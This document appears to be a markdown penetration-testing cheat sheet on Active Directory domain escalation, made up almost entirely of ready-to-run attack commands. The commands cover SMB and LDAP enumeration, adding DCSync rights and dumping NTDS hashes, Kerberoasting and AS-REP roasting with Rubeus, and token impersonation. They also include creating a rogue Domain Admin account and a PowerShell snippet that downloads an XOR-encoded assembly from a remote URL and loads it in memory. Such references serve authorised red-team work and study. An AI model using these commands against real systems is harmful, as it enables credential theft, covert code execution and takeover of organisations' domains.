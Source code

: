 # Domain escalation

## Tools

- [Bloodhound](https://github.com/BloodHoundAD/BloodHound) & [Sharphound injestor](https://github.com/BloodHoundAD/SharpHound3) or [bloodhound-python injestor](https://github.com/fox-it/BloodHound.py)
- [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit) (PowerView)
- [Ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)
- [RSAT](https://download.microsoft.com/download/1/D/8/1D8B5022-5477-4B9A-8104-6A71FF9D98AB/WindowsTH-RSAT_WS_1709-x64.msu)

> After installing RSAT, you can go to "Users and Computers AD =&gt; View =&gt; Advanced"

```bash
#enum4linux
enum4linux -a <target_dc> -u <USER> -p <PASSWORD> -d <domain>

#bloodhound-python
bloodhound.py -d <DOMAIN> -u <user> -p <password> -dc <FQDN-SERVER> -c all

#ldapdomaindump
pip install ldapdomaindump && ldapdomaindump -u '<domain>\<user>' -p '<pass>' <target>

#ldapsearch
sudo ldapsearch -x -LLL -H ldap://webmail.<domain>.fr -D "cn=<cn>" -b "dc=<domain>,dc=<fqdn>" -w '<pass>'
```

---


## **Domain enum**

Get DC IP

```bash
cat /etc/resolv.conf
nslookup <domain>
```

Password policy \(especially lockout threshold for bruteforce\)

```bash
enum4linux -P -o <target>
enum4linux -a <target>
```

### Open shares \(anonymous SMB, NFS, FTP, etc\)

SMB open shares

```bash
smbmap -H IP -r DOSSIER
smbmap -H IP --download DOSSIER

# SMB V1
smbclient -L ///192.168.0.1 -U <user> -c ls [--option='client min protocol=NT1']
mount //10.11.1.136/"Bob Share" /mnt/bob [-o vers=1.0]
```

SMB restricted shares

```bash
smbmap -P 445 -H <target> -u '<user>' -p '<pass>' 
smbget -rR smb://<target>/<share>/ -U <user>
smbclient \\\\<target>\\c$ -U <user>
smbclient -L //<target> -U '<domain>\<user>`
upload .ico .scf => Responder/NTLMrelayx
```

NFS 

```bash
showmount -e <target>
mount <target>:/home/xx /mnt/yy 
```

---

## ACLs

Get ACL

```bash
Get-DomainObjectAcl -Identity <username> -ResolveGUIDs ? { $_.SecurityIdentifier -Match $(ConvertTo-SID <domain>) }
```

add DCSync

```bash
Add-DomainObjectAcl -TargetIdentity "DC=<domain>,DC=<local>" -PrincipalIdentity <username> -Rights DCSync
```

dump ntds 

```bash
meterpreter > dcsync_ntlm <DOMAIN>\<user>
```

## Kerbrute AS-REP

```bash
nmap -p88 --script=krb5-enum-users --script-args krb5-enum-users.realm='megabank.local',userdb=/root/users.txt 10.10.10.169
./kerbrute_linux_amd64 userenum -d <domain> usernames.txt -debug
```

---

## Impersonation Token 

### Tools
- [Rubeus.exe](https://github.com/GhostPack/Rubeus) (DOTNET CSHARP)
- [Tokenvator](https://github.com/0xbadjuju/Tokenvator) (DOTNET CSHARP)
- [Incognito.exe](https://github.com/FSecureLABS/incognito) (Meterpreter extension)
- [TokenManipulation.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

Reflectively load DOTNET CSHARP Assembly within Powershell (or Cobalt, SilentTrinity etc.) if you cant do it through your C2 Infra :

```powershell
$wc=New-Object System.Net.WebClient;$wc.Headers.Add("User-Agent","Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0");$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;$wc.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials
$k="xxxxxxx";$i=0;[byte[]]$b=([byte[]]($wc.DownloadData("https://xxxxx")))|%{$_-bxor$k[$i++%$k.length]}
[System.Reflection.Assembly]::Load($b) | Out-Null
$parameters=@("arg1", "arg2")
[namespace.Class]::Main($parameters)
```

---

### Kerberos impersonate

Find domain admin accounts 

```bat
net group "Domain Admins" /DOMAIN
net group "Admins du domaine" /DOMAIN
```

Find if one is loggedon somewhere :

```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --loggedon-users
bloodhound.py -d <domain> -u <user> -p <password> -ns <IP-DC> -c LoggedOn
```

Impersonate kerberos token

```bat
# Rubeus
Rubeus.exe klist
Rubeus.exe dump
Rubeus.exe kerberoast /outfile:roasted_hashes.txt
Rubeus.exe asreproast /outfile:asrep_hashes.txt
Rubeus.exe s4u </ticket:BASE64 | /ticket:FILE.KIRBI> </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI>

#TokenManipulation
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"


# Incognito loaded by Meterpreter
load incognito 
list_tokens -u
impersonate_token <domain>\\<user> # Double slash is mandatory !

# Incognito standalone executable
Incognito.exe

# CrackMapExec using kerberos ticket
export KRB5CCNAME=<user>.ccache 
sudo cme smb <target> --kerberos -x whoami
```

Create new Domain Admin account 

```bat
net user add <user> <pass> /domain
net group "Domain Admins" <user> /add
```

Check if a computer has the TrustedForDelegation flag enabled

```powershell
Get-ADComputer -Identity <computer_name> -Properties TrustedForDelegation
```

---

### Manual testing

- [secureauth.com](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/)

### Delegation Explained

- [specterops.io](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)